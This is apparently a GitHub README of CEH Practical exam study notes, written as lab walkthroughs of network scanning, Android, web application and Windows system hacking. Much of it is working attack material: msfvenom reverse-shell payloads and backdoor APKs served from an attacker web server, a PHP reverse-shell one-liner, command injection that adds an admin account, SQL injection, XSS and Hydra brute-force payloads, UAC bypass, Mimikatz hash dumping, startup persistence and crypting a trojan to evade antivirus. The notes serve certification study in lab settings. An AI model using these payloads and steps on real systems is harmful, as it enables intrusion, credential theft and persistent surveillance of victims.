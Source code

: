 # CEH-Practical-Notes

# Network Hacking
<details>
  <summary>Netdiscover </summary>

* Scan Entire Network for ALive host using ARP
```console
netdiscover -i eth0
netdiscover -r x.x.x.1/24
```

</details>

<details>
  <summary>Nmap </summary>

* To scan the live Host
```console

nmap -sP x.x.x.0/24        	{Live host}
nmap -PR -sn x.x.x.0/24        	{Live host without port scan - ARP scan}
nmap -sC -sV x.x.x.0/24        	{Script + version}    
nmap -O x.x.x.x                 {To find the OS}
nmap -p- x.x.x.1/24        	{open port}
nmap -p port x.x.x.1/24 --open  {find the Specific open port}
nmap -T4 -A -v www.moviescope.com/x.x.x.10/24  {Aggressive scan}
nmap --script <script_name> -p <port> x.x.x.0/24 {using nse script}
nmap -sC -sV -p- -A -v -T4 x.x.x.0/24 {script+version+ports+os scan}
nmap -T4 -A -v -oN ouput.txt x.x.x.0/24  {Normal output in a file}

nmap -Pn -A x.x.x.1/24 -vv --open {Comprehensive Scan}
nmap -p 3389 -iL ip.txt | grep open (Check RDP enabled after getting ip)
nmap -p 3306 -iL ip.txt | grep open (Check MySQL service running)



nmap -sn x.x.x.0/24 -iL ips.txt {No of hosts up}

```
</details> 

# Android Hacking
<details>
  <summary>ADB</summary>

* To Install ADB
```console
apt-get update
sudo apt-get install adb -y
adb devices -l
```
* Connection Establish Steps

```console
adb connect x.x.x.x:5555
adb devices -l
adb shell  
```
* To navigate
```console
pwd
ls
cd Download
ls
cd sdcard
```
* Download a File from Android using ADB tool
```console
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```
</details>


# Steganography
  <details>
    <summary>OpenStego</summary>

* To hide the Text in image

```console
Hide Data -> Message file -> text & Cover file -> image file
Output -> Desktop -> island -> Hide data
```

* To unhide the Hidden Text

```console
Extract Data -> Input -> islan.png
Output -> Desktop/NewTextDocument.txt
```

</details>

<details>
    <summary>Keywords</summary>

* Img hidden      - Openstego
* .hex            - Cryptool
* Whitespace      - SNOW
* MD5             - Hashcalc & MD5 Calculator
* Encoded         - BCTexteditor
* Volume & mount  - Veracrypt

</details>

# Malware threat analysis
<details>
<summary>Gain access to the target system using Trojans</summary>

```console

[W11] - attacker
	
Launch njRAT v0.7d.exe
port 5552
Click Builder (lower left -corner)
Enter Ip of attacker,check the optionRegisty StarUp and clickBuild.
Save As malacious.exe on Desktop and share

[WS22] - Victim
Copy malacious.exe to Desktop and Run

[W11]
Establishes a persistent connection with the victim machine
Right click on detected victim and click Manager
"Process Manager" -> Right click -> Kill/Delete/Restart
Connectoin -> Right click -> Kill Connection
Registry -> Right click -> associated registry files
Remote Shell -> launch remote conn on Win 22

cmd>ipconfig/all -> lower left conrner
Services -> start/pause/stop service
Close Manager window

Right click on victim name -> Remote Desktop (Launches remote connection)
select Mouse Checkbox -> remotely interact with the victim machine using the mouse.
Right click on victim name ->Remote Cam -> Microphone

[WS22]
As a victim perform some activity on machine, create a secret file and save.

[W11]
Right click on victim name -> Keylogger -> Able to view all keystrokes performed by victim
Right click on victim name -> open chat -> send msg to victim

```
</details>

<details>
<summary>Create a Trojan Server using Theef RAT Trojan</summary>
    Allows remote access to the system via port 9871 & 6703.

```console
[WS22] - Victim
Run Theef/Server210.exe 

[W11] - Attacker
Run Theef/Client210.exe
Victims ip & port 6703 
Estblish connection and perform activity, client will track all.
Computer info/ PC details/Home/Nw Info
```
</details>

<details>
<summary>Create a Virus using JPS virus maker tool and infect the target system</summary>

Features - auto-start/shutdown/disable security check, lock mouse, keyboard, destroy protected storage & terminate windows

```console

[Win11]
Luaunch JPS executable
Selection options you with to do --> Righ Arrow -> To change windows password & other --> right arrow for more features
Create virus
Share the virus created

[WS19]
Launch virus created
Open task manager - its disable - to verify
Restart to see pwd change affected
```
</details>
<details>
<summary>Hide a Trojan using SwayzCrypto</summary>

```console

[W11]
https://www.virustotal.com -> upload & see no of vul identified -> 59/69 vul shows
Run SwayzCryptor.exe ->Select file -> Desktop/Test.exe ->check the optionsStart up,Mutex, andDisable UAC, and then clickEncrypt.
Save file dialog -> cryptedfile.exe 
https://www.virustotal.com -> upload crypted.exe -> confirm upload -> only few anivirus will detect its malacious file

Start njRAT v0.7d.exe
Share CryptedFile.exe via shared folder

[WS22]
copy crypted.exe from shared to desktop -> run -> Attacker machine establishes a persistent connection with the victim machine.

[W11]
can observe that the connection has been established with the victim machine.

```

</details>

<details>
<summary>Capture and Analyze IoT Traffic using Wireshark</summary>

```console
[WS19]
Launch \Bevywise IoT Simulator\Bevywise_MQTTRoute_Win_64.exe file.
Command prompt will appear, can see the TCP port using 1883.

To create IoT devices, we must install the IoT simulator on the client machine.
[WS22]

Launch \Bevywise IoT Simulator\Bevywise_IoTSimulator_Win_64.exe
Launch C:\Bevywise\IotSimulator\bin\runsimulator.bat -> select Microsoft Edge browser and click OK to open the URL http://127.0.0.1:9000/setnetwork?network=HEALTH_CARE.
View the default network named HEALTH_CARE and several devices.

Create a virtual IoT network and virtual IoT devices. 
select the +New Network option.
CEH_NETWORK -> Create 
Broker IP Address as: [WS19_IP]
- the created network will interact with the server using MQTT Broker.

Add blank Device
Device name:Sensor, enter Device Id:TS1, Description and click on Save.
To connect the Network and the added devices to the server or Broker, click on the Start Network red color circular icon in right corner.

When a connection is established between the network and the added devices and the web server or the MQTT Broker, the red button turns into green.

[Ws19]
can see a connection request from machine WS22 machine for the device TS1.

[WS22]
Create Subscribe command for the device Sensor.
Click on the Plus icon in the top right corner and select the Subscribe to Command option.
The Subscribe for command - TS1 popup opens. Select On start under the Subscribe on tab, type High_Tempe under the Topic tab, and select 1 Atleast once below the 
Qos option. Click on Save.
can see the Topic added under the Subscribe to Commands section.
 will capture the traffic between the virtual IoT network and the MQTT Broker to monitor the secure communication.

 Wireshark
 Note: Make sure you have selected interface which has WS22 as the IP address.

[WS19]
Chrome - http://localhost:8080

Signin
Devices Menu 
send the command to TS1 using the High_Tempe topic.
Command Send section, select Topic as High_Tempe, type Alert for High Temperature and click on the Send button.

[S22]
Verify the message is received

wireshark
filter: mqtt

```
</details>

<details>
<summary>malware analysis</summary>

* Static malware analysis using hybrid

   https://www.hybrid-analysis.com -> upload virus and analyse

* Strings search using BinText
 
[WS11]
    
Run bintext.exe ->String searching tool
select Advance view
select "malacious.exe" from shared drive


* Identify packaging and obfuscation methods using PEid

[W11]

Launch PEiD.exe
Open virus file
click Open, PEiD analyzes the file and provides information


* Analyze ELF executable file using Detect It Easy (DIE)

Detect It Easy automatically scans the file and result appears showing the Operating system, compiler and language details in the middle pane

[W11]

Launch die.exe
Open ELF Test File
File info/Hash/Entropy and other details


* Portable executable (PE) information of a malware executable file using PE Explorer

Launch PE.Explorer_setup.exe
Open virus.exe
On top
Data Directories ->to view and edit the virtual address and size of the chosen directory describing provisions of parts of the code.
Section Headers->


* File dependencies using Dependency Walker

Launch depends.exe
open file.exe
Observer Import and Export section.


* Malware disassembly using IDA

[W11]

Launch IDA Freeware
IDA: Quick start -> New -> select malicious file
Portable executable for 80386 (PE) [pe64.dll] option selected -> OK
IDA View-A tab -> Right click -> Text view

Disassembling and Debugging Tools\IDA, Copy the qwingraph.exe file and paste it in IDA’s installation location. C:\Program Files\IDA Freeware 7.7
IDA-> View-> Graphs-> Flow Chart
View -> Graphs -> Function calls
HexView-1tab -> view hex value of the malicious file
Structure
Enums

* Malware disassembly using OllyDbg

Launch OLLYDBG.EXE

File file.exe
Output appears in -> CPU - main thread, module tini

View-> Log
Log data appears ->displays the program entry point and its calls to known functions

View->Executable modules
View->Memory
View->Thread


* Malware disassembly using Ghidra

Run ghidraRun.bat

If a Command Prompt window appears, then type C:\Program Files\jdk-17.0.2+8 and press Enter
Ghidra: NO ACTIVE PROJECT -> File -> New Project
Non-Shared Project -> Proj Name: Malware Analysis -> Finish
File->Import file -> file.exe -> Import Result Summary -> OK

file.exe is added as a children node under the Malware Analysis project
Double click file.exe -> Analyse -> Yes
under Symbol Tree, you can observe various components of face.exe file such as Imports, Exports, Functions and Labels

Expand Imports -> view DLL files

Program Tree->Headers double click
-> Double click .rdata

</details>

#Web server hacking
<details>
	<summary>using Nmap Scripting Engine (NSE)</summary>
	
	```console
	[linux]
	nmap -sV --script=http-enum [target]
	 
	To discover the hostnames that resolve the targeted domain.
	nmap --script hostmap-bfk -script-args hostmap-bfk.prefix=hostmap- [target]

	Perform HTTP trace on the targeted domain
	nmap --script http-trace -d [target]
	This script will detect a vulnerable server that uses the TRACE method by sending an HTTP TRACE request that shows if the method is enabled or not.

	check whether Web Application Firewall is configured on the target host or domain
	nmap -p80 --script http-waf-detect [Target]
	determine whether a web server is being monitored by an IPS, IDS, or WAF.
	This command will probe the target host with malicious payloads and detect the changes in the response code
        ```
	<summary>Linux </summary>
 	sudo su
	
	uniscan -h
	uniscan -u [target-url] -q
	-q -> to search for the directories of the web server.
	
	uniscan -u [target-url] -we
	Here -w and -e are used together to enable the file check (robots.txt and sitemap.xml file).
	
	uniscan -u [target-url] -d
	to start a dynamic scan on the web server.
	obtaining more information about email-IDs, Source code disclosures, and external hosts, web backdoors, dynamic tests.
	
	File system ->
	usr --> share --> uniscan --> report.
 
</details>

#Reference
* Analyze IOT device
https://ceh-practical.cavementech.com/module-18.-iot-and-ot-hacking/2.-capture-and-analyze-iot-traffic

#  Mobile Hacking
<details>
	<summary># Exploit the Android Platform through ADB using PhoneSploit</summary>
	```console


 	```
</details>

<details>
	<summary># Exploit the Android Platform through ADB using PhoneSploit</summary>
	```console

	[Linux]
	sudo su
	cd PhoneSploit
	python3 -m pip install colorama
	python3 phonesploit.py
	3  	-> Connect a new phone
	Enter a phones ip address: [andoirdIP]
	connection time out error :  Type 3 continue until u get Phone Ip address option
	Connected at port 5555
	
	(main_menu)> 4  	-> Access Shell on a phone
	Device name: [AndroidIP]
	pwd		-> Root dir
	ls
	cd sdcard
	ls
	cd Download
	ls
	
	Note: Note down the location of images.jpeg (in this example, /sdcard/Download/images.jpeg). We will download this file in later steps.
	exit
	
	(main_menu)>7    ->Screen Shot a picture on a phone.
	[AndoridIP]
	/home/attacker/Desktop		-> save, screen.png is stored in Desktop
	
	(main_menu)>14 	 ->list all apps on the phone
	[AndoridIP]
	(main_menu)>15 	 ->choose Run an app
	com.android.calculator2
	
	[android]
	see that the calculator app is running, and that random values have been entered
	```
</details>

<details>
	<summary># Hack an Android Device,Creating Binary Payloads</summary>
	
	```console
 	[Linux]
    	sudo su
	cd
	service postgresql start
	msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=[PIP] -R > Desktop/Backdoor.apk 
	mkdir /var/www/html/share
	chmod -R 755 /var/www/html/share
	chown -R www-data:www-data /var/www/html/share
	service apache2 start
	cp /root/Desktop/Backdoor.apk /var/www/html/share/
	msfconsole
	use exploit/multi/handler
	show options
	set LHOST [PIP]
	exploit -i -z  -> run exploit as background job
	
	[Android]
	launch http://[PIP]/share
	download and run Backdoor.apk
	
	[Linux]
	The meterpreter session has been opened successfully
	sessions -i 1
	sysinfo
	ipconfig
	pwd
	cd /sdcard 
	pwd -> /storage/emulated/0.
	ps
 	```
</details>
    
<details>
	<summary># Hack an Android Device,Creating APK File - AndroRAT</summary>
	
	```console
	[linux]
	sudo su 
	cd AndroidRat
	python3 androidRAT.py --build -i [PIP] -p 4444 -o SecurityUpdate.apk
	--build: is used for building the APK
	-i: specifies the local IP address
	cp /home/attacker/AndroidRAT/SecurityUpdate.apk /var/www/html/share
	service apache2 start
	python3 androidRAT.py --shell -i 0.0.0.0 -p 4444
        --shell: is used for getting the interpreter
        -i: specifies the IP address for listening (here, 0.0.0.0)

	[Android]
	launch http://[PIP]/share
	save and open SecurityUpdate.apk
	
	[parrot]
	Interpreter session has been opened successfully.
	help
	deviceinfo
	getSIM inbox
	getMACAddress
	exit
 	```
</details>  



<details><summary># Analyze IoT Traffic using Wireshark</summary>
    
    ```console
    [WS19]
    
    Run Bevywise_MQTTRoute_Win_64.exe file.
	The MQTTRoute will execute and the command prompt will appear. You can see the TCP port using 1883.
	
	
	[WS22] - IoT simulator on the client machine. 
	
	Run Bevywise_IoTSimulator_Win_64.exe
	Launch C:\Bevywise\IotSimulator\bin\runsimulator.bat
	
    select Microsoft Edge browser and click OK to open the URL http://127.0.0.1:9000/setnetwork?network=HEALTH_CARE.
	View the default network named HEALTH_CARE and several devices.
	
	Create a virtual IoT network and virtual IoT devices. 
	select the +New Network option.
	CEH_FINANCE_NETWORK ->Create.
	Broker IP Address as [WS19IP]
	To add IoT devices to the created network, click on the Add blank Device button.
	Device name:Temperature_Sensor, enter Device Id:TS1, Description and click on Save.
	To connect the Network and the added devices to the server or Broker, click on the Start Network red color circular icon in right corner.
	
	When a connection is established between the network and the added devices and the web server or the MQTT Broker, the red button turns into green.
	
	[WS19]
	Since the Broker was left running, you can see a connection request from machine [WS22] for the device TS1.
	
	[WS22]
	Create the Subscribe command for the device Temperature_Sensor.
	Click on the Plus icon in the top right corner and select the Subscribe to Command option.
	The Subscribe for command - TS1 popup opens. Select On start under the Subscribe on tab, type High_Tempe under the Topic tab, and select 1 Atleast once below the 
	Qos option. Click on Save.
	can see the Topic added under the Subscribe to Commands section.
    will capture the traffic between the virtual IoT network and the MQTT Broker to monitor the secure communication.
	
	 Wireshark
	 Note: Make sure you have selected interface which has [WS22IP]
	
	[WS19]
	Open Chrome browser, type http://localhost:8080 and press Enter.
		Note: Do not use Internet Explorer web browser to open the above URL.
	Signin
	Devices Menu 
	send the command to TS1 using the High_Tempe topic.
	Command Send section, select Topic as High_Tempe, type Alert for High Temperature and click on the Send button.
	
	[WS22]
	Verify the message is received
	
	wireshark
	filter: mqtt
	MQ Telemetry Transport Protocol, Ping request/Publish Received/Publish Complete
	Look for Msg Len,Topic Length,Topic, and Message.
    ```
</details>

# Web Application hacking

<details>
	<summary>Banner grabbing</summary>
	
	```console
 	   nmap -T4 -A -v [Target Web Application] 
     	   OR
	   telnet www.moviescope.com 80
	   GET / HTTP/1.0
	```
</details>

<details>
	<summary>Reconinanace using whatweb</summary>
	
	```console
	  whatweb -v [Target] 
	  whatweb --log-verbose=Report www.moviescope.com
	```
</details>

<details>
<summary>Web Server Directories</summary>
	
```console
 nmap -sV --script=http-enum
 look under http-enum
 Find dirs
 gobuster dir -u [Target Website] -w /home/attacker/Desktop/common.txt

 OR
 python3 dirsearch.py -u [Target]
 python3 dirsearch.py -u http://www.moviescope.com -e aspx   {spec extn}
 python3 dirsearch.py -u http://www.moviescope.com -x 403    {dir bruteforce excluding port 403}

``` 
</details>
<details><summary>Hack a Web Application using WPScan and Metasploit</summary>

```console

    [WS22]
    Launch wampserver

	[parrot]
	sudo su
	cd
	wpscan --api-token [API Token] --url http://[WSIP]:8080/CEH --enumerate u
	--enumerate u: specifies the enumeration of usernames.

	Obtained the usernames stored in the database.

    To find user's passwords.

	service postgresql start -> first start the PostgreSQL service.
	msfconsole
	use auxiliary/scanner/http/wordpress_login_enum 
	show options
	set PASS_FILE /home/attacker/Desktop/CEHv12 Module 14 Hacking Web Applications/Wordlist/password.txt 
	set RHOSTS [WIP]
	set RPORT 8080
	set TARGETURI http://[WSIP]:8080/CEH 
	set USERNAME admin -> take any username obtained from above
	run
```
</details>

<details>
<summary>Perform remote os command injection (dvwa web) and get the content from pin file</summary>

```console
    [Win 11]
	http://[WSIP]:8080/dvwa/login.php
	test/abc123
	Command Injection
	
	Ping a device - [W22IP] -> successfully pings the target machine
	Try with ;/&&/&/ 
	| hostname          -> error -> Change security level to low
	| hostname 			-> return machine name, any other details from the system   
	| whoami
	| tasklist 			-> to view the processes running on the machine.
	| Taskkill /3112 /F -> Forcefully terminate the process

	/F- Forecefully terminate
	
	| dir C:\ 			-> files and directories on C:\
	| net user  		-> User account information
	| net user Test /Add ->	Attempt to add a user account remotely.
	| net user 			-> View the new user account
	| net user Test 	-> new account information
	
	Does not have administrative privileges. It has an entry called Local Group Memberships.
	
	| net localgroup Administrators Test/Add  -> To grant administrative privileges
	| net user Test     -> Test is now an administrator account under the Local Group Memberships option.
		
	Check able to connecto to Target machine with new user with RDC
	RDC -> [Target IP]
	Username: Test - connect
```
</details>

<details>
<summary>Perform file upload (dvwa web)</summary>

```console
    
	[linux]
	sudo su
	cd
	msfvenom -p php/meterpreter/reverse_tcp LHOST=[PIP] LPORT=444 -f raw
	Copy payload and paste it into upload.php
		
	Open http://WSIP:8080/dvwa/login.php
	admin/password
	security - low
	File upload - upload the upload.php
	
	[linux]
	sudo su
	cd
	msfconsole
	use exploit/multi/handler
	set payload php/meterpreter/reverse_tcp
	set LHOST [PIP]
	set LPORT 444
	run
	
	Firefox
	Open http://[WSIP]:8080/dvwa/hackable/uploads/upload.php
	
	Terminal - Meterpreter session has successfully been established with the victim system
	sysinfo
	
	----
	if securty set to high
	File upload - upload the high.jpeg
	
	Command Injection
	Ip address: |copy C:\wamp64\www\DVWA\hackable\uploads\high.jpeg C:\wamp64\www\DVWA\hackable\uploads\shell.php + Submit
	
	Terminal
	sudo su
	cd
	msfconsole
	use exploit/multi/handler
	set payload php/meterpreter/reverse_tcp
	set LHOST [PIP]
	set LPORT 2222
	run 
	
	Firefox: http://[WSIP]:8080/dvwa/hackable/uploads/shell.php
	Terminal: Meterpreter session has successfully been established with the victim system.
	sysinfo
```

</details>

<details>
<summary>DVWA</summary>

```conose
hydra -l admin -p pasword 10.0.0.49 http-post-form="/login.php:username=admin&password=^PASS^&Login=Submit:Login failed"

hydra 10.0.0.49 http-form-post "/login.php:username=^USER^&password=^PASS^&Login=submit:Login failed" -l admin -p password

NOT WORKING
hydra 10.0.0.49 http-form-post "/login.php:username=^USER^&password=^PASS^&Login=Login:H=cookie\:PHPSESSID=hokuv28srabuqss7p766lttp75; security=low:F=Login failed" -l admin -P /home/sbkali/Downloads/pass.txt

1. Vul - Brute-force 
security=low
hydra 10.0.0.49 http-form-get "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=cookie\:PHPSESSID=hokuv28srabuqss7p766lttp75; security=low:F=Username and/or password incorrect." -l admin -P /home/sbkali/Downloads/pass.txt

security=medium
hydra 10.0.0.49 http-form-get "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=cookie\:PHPSESSID=hokuv28srabuqss7p766lttp75; security=medium:F=Username and/or password incorrect." -l admin -P /home/sbkali/Downloads/pass.txt -V -I --> verbose

security=high
NOT WORKING
------------------------------------------------------------------------------------------------------------------------
Command Injection

check which char is accepting ;/&/|/||/&&

low
localhost
localhost | whoami
localhost | php -r '$sock=fsockopen("10.0.0.16",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

nc -nvlp 4444

medium

localhost | php -r '$sock=fsockopen("10.0.0.16",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

high
change secrity by intercepting then it will work
------------------------------------------------------------------------------------------------------------------------
File upload
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.0.16 LPORT=444 -f raw > shell.php

msfconsole
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 10.0.0.16
set LPORT 444
exploit

1. update Content-Type: image/jpeg 

Upload shell.php -> File is uploaded
Now access that file by entering the full path 10.0.0.49/hackable/uploads/../../hackable/uploads/shell.php

Reverse shell is open in msfconsole
sysinfo
whoami
pwd

High
add GIG 98 to shell.php
mv shell.php shell.php.jpeg
Similary intercept the req and update the security it will work for all. if only jpeg accepted then intercept and update Content-Type: image/jpeg -
------------------------------------------------------------------------------------------------------------------------
' or 1=1#   - Displays result

Find no of columns --> 2
' order by 1# - No error
' order by 1# - No error
' order by 3# -- error

' union select @@version, null#  --> 10.1.26-MariaDB-0+deb9u1
' or 0=0 union select null, user() #
' or 0=0 union select null,concat(user, password) from users #

First name: admin
Surname: admin

SQLMAP

1. sqlmap -u "http://10.0.0.49/vulnerabilities/sqli/?id=1&Submit=Submit#" --dbs --cookie="PHPSESSID=hokuv28srabuqss7p766lttp75; security=low" --batch
available databases [2]:
[*] dvwa
[*] information_schema

2. sqlmap -u "http://10.0.0.49/vulnerabilities/sqli/?id=1&Submit=Submit#" -D dvwa --cookie="PHPSESSID=hokuv28srabuqss7p766lttp75; security=low" --batch --dump-all

Blind Injection
' or sleep(5)#
1 or sleep(5)#

1 1=0 and union select null, concat(user,password) from users #
-------------------------------------------------------------------------------------------------------------
XSS-DOM
alert(1)
Medium: </select><video><source onerror="javascript:alert(1)"></video>
High: #<script>alert(1)</script>  --> commented javascript

Reflected

Low: <script>alert(1)</script>
Medium : <img src=x onerror=alert(1)>
High: <img src=x onerror=alert(1)>

Stored
low: <script>alert(1)</script>
medium: <img src=x onerror=alert(1)>
high: <img src=x onerror=alert(1)>
-------------------------------
echo -n "token" | wc -c --> 32
echo 'ChangeMe' | tr 'A-Za-z' 'N-ZA-Mn-za-m''
PunatrZr
echo -n "PunatrZr"| md5sum  -> same token 

echo 'success' | tr 'A-Za-z' 'N-ZA-Mn-za-m''
dsfsdf
echo -n "dsfsdf"| md5sum  -> diff token

put success and add diff token in burpsuit

```
</details>

# System Hacking

<details>
<summary> Exploit client-side vulnerabilities and establish a VNC(Virtual Network Computing) session</summary>

```cosole

[parrot]
sudo su
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 LHOST PIP LPORT 444 -f exe -o /home/attacker/Desktop/Test.exe
mkdir /var/www/html/share
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share
cp /home/attacker/Desktop/Test.exe /var/www/html/share
service apache2 start

msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST PIP
set LPORT 444
exploit 

[windows]
http://PIP/share
download Test.exe

[parrot]
{Note: If the Meterpreter shell is not automatically connected to the session, type sessions -i 1}
sysinfo
upload /root/PowerSploit/Privesc/PowerUp.ps1 -->uploads the PowerSploit file to the target system’s present working directory.

Note: PowerUp.ps1 is a program that enables a user to perform quick checks against a Windows machine for any privilege escalation opportunities. It utilizes various service
abuse checks, .dll hijacking opportunities, registry checks, etc. to enumerate common elevation methods for a target system.

shell
powershell -ExecutionPolicy Bypass -Command “. .\PowerUp.ps1;Invoke-AllChecks”

Note: Attackers exploit misconfigured services such as unquoted service paths, service object permissions, unattended installs, modifiable registry autoruns and configurations, and other locations to elevate access privileges. After establishing an active session using Metasploit, attackers use tools such as PowerSploit to detect misconfigured services that exist in the target OS.

exploit VNC vulnerability to gain remote access
run vnc

```
</details>

<details>
<summary>Escalate privileges to gather hashdump using Mimikatz</summary>

  ```console
  
        [linux]
		
	sudo su
	msfvenom -p windows/meterpreter/reverse_tcp lhost=[IP] lport=444 -f exe > /home/attacker/Desktop/backdoor.exe
	share with victim machine
	
	msfconsole
	use exploit/multi/handler
	set payload windows/meterpreter/reverse_tcp
	set LHOST [IP]
	set LPORT 444
	run
	
	[windows]
	access run backdoor.exe
	
	[parrot]
	sysinfo
	getuid -> Windows11\Admin

	background
	use exploit/windows/local/bypassuac_fodhelper
	set session 1
	set LHOST [IP]
	set TARGET 0
	exploit
	getsystem -t 1
	getuid   --> NT AUTHORITY\SYSTEM
	load kiwi    -->to load mimikatz.
	help kiwi    -->to view all the kiwi commands.
	lsa_dump_sam   ->to load NTLM Hash of all users.
	lsa_dump_secrets -> Note: LSA secrets are used to manage a system's local security policy, and contain sesnsitive data such as User passwords, IE passwords, service 
	account passwords, SQL 
	passwords etc.
	
	password_change -u Admin -n [NTLM hash of Admin acquired in previous step] -P password
	lsa_dump_sam   --> check the new hash value
	
	[Windows]
	try to login -> u wont be able to but try with modified pwd, u should be able to login to machine

  ```
</details>

<details>
	<summary>Maintain persistence by abusing boot/logon autostart execution</summary>

	```console
	[linux]
	sudo su
	cd 
	msfvenom -p windows/meterpreter/reverse_tcp -f exe LHOST=IP LPORT=444 > /home/attacker/Desktop/exploit.exe
	cp /home/attacker/Desktop/exploit.ext /var/www/html/share/   [follow same steps to share folder - mentioned b4]
	service apache2 start
	msfconsole
	use exploit/multi/handler
	set payload windows/meterpreter/reverse_tcp
	set lhost IP
	set lport 444
	run
	
	[windows]
	http://PIP/share
	
	[linux]
	meterpreter session will be opened
	getuid

	try to bypass the user account control setting that is blocking you from gaining unrestricted access to the machine.
	
	background
	use exploit/windows/local/bypassuac_fodhelper
	set session 1
	show options
	set LHOST IP
	set TARGET 0  [0 - Exploit Target ID]
	exploit

	The BypassUAC exploit has successfully bypassed the UAC setting on the **Windows 11** machine.
	
	getsystem -t 1  -> to elevate privileges
	getuid 
	cd “C:\\ProgramData\\Start Menu\\Programs\\Startup”
	pwd
	create payload that needs to be uploaded into the Startup folder of Windows 11 machine.
	
	Second terminal->
	msfvenom -p windows/meterpreter/reverse_tcp lhost=IP lport=8080 -f exe > payload.exe
	
	First Terminal
	upload /home/attacker/payload.exe 
	
	[windows]
	Login to Admin account -> Restart windows machine
	
	[Linux]
	Open another terminal window with root privilages 
	msfconsole
	use exploit/multi/handler
	set payload windows/meterpreter/reverse_tcp
	set lhost [IP]
	set lport 8080
	exploit
	
	[windows]  login to Admin account and restart the machine so that the malicious file that is placed in the startup folder is executed.
	
	[parrot]
	meterpreter session is open [Note: takes little time to open]
	getuid

</details>
